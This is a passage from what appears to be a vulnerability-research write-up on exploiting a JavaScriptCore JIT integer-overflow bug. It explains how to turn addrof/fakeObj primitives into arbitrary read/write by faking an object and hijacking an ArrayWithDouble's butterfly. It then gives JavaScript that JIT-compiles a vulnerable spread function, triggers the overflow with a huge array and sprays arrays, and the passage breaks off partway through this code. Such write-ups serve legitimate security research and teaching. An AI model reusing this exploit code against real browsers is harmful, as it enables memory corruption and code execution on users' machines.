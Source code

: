 - [x] Get leakAddr and fakeObj primitives

### Get Arbitrary Read Write Primitives

Now that we have a fake object and an address leaking primitive our next goal is to achieve arbitrary read write primitives. Our general strategy will be to create a fake object and point the butterfly at the butterfly of an ArrayWithDouble and to write to this butterfly the address we want to read or write from. This technique is used during the original exploit and is mentioned by saelo in [this article](https://gist.github.com/saelo/dd598a91a27ddd7cb9e410dc92bf37a1). 

However, before I was able to do this I ran into an unexpected error. I found that after I added a certain amount of code to the exploit, triggering the vulnerability wouldn't work and I would hit the slow path causing an out of memory exception. 

To fix this I found that I was able to treat the code to be run as a string and call the JavaScript `eval` function. For whatever reason this was able to circumvent this issue.

To set up our fake object we need it to have a valid structure ID. In order to do this we spray a bunch of structure IDs and set ours to a predictable structure ID. 

In order to overwrite the butterfly of the ArrayWithDouble, we need to be able to index to target butterfly. To do this we keep allocating arrays until the address is greater than the address of the middle element of the sprayed structure IDs array. We then set the butterfly of our fake object to be this middle element and index into the fake object butterfly to set the target butterfly.

```
function jitMe(array, reInitAllocator){                                                                                            
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
```